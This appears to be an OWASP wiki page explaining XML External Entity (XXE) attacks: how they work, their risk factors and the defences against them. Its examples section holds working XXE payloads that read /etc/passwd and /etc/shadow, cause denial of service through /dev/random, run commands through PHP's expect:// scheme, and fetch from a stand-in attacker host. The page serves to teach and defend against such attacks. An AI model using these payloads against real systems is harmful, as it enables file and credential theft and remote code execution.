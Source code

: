 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tags: vulnerability, XML External Entity (XXE) Processing
auto-migrated: 1

---
```


[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection (OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```

### Disclosing /etc/passwd or other targeted files

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd>" >]>
<foo>&xxe;</foo>
```


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow>" >]>
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>
<foo>&xxe;</foo>
```


## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise
defend against XXE attacks is presented in the [XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks - A Compendium of Known Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at OWASP AppSec Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")
